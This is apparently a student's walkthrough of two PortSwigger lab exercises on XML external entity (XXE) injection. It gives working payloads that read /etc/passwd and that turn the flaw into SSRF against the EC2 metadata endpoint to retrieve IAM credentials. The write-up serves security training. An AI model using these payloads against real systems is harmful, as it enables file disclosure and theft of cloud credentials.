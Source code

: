 ```yaml
---
title: XXE - APPRENTICE
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/XXE"
---
```


# XXE - APPRENTICE
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response. 
* Goal: To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file. 

## Lab: Exploiting XXE using external entities to retrieve files
### Recon
1. Use Burp Suite to intercept package
![](https://i.imgur.com/gMn3Cbu.png)
You can notice that it use a normal xml format.

### Exp - Inject Directly
Exploit Payload:
```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd">]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/2Xbsq4L.png)

---
![](https://i.imgur.com/3npCzv9.png)
:::

---

## Lab: Exploiting XXE to perform SSRF attacks
* Description: This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
* Goal: To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

### Recon
1. Intercept Package
From the screenshot of the package, we noticed that the xml attached data could be injected.
![](https://i.imgur.com/6o3vhzm.png)

### Exp - Inject Directly
Exploit Payload:
```xml!
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/hYjBqR8.png)

---
![](https://i.imgur.com/4ZBkJpE.png)
:::